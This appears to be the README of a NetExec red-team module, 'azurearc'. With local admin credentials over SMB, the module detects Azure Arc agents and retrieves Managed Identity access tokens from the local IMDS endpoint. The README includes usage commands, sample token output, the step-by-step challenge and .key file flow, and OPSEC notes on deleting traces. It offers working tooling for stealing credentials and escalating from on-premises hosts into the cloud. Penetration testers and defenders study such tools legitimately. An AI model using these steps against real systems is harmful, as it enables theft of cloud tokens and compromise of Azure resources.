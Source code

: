 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}
```

🔍 How It Works (Behavior)
Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read the .key contents (requires local admin).
2.Second GET with Authorization: Basic <key> to obtain token JSON.
Write JSON to OUTFILE, fetch via SMB, and delete the file.

📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />


🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

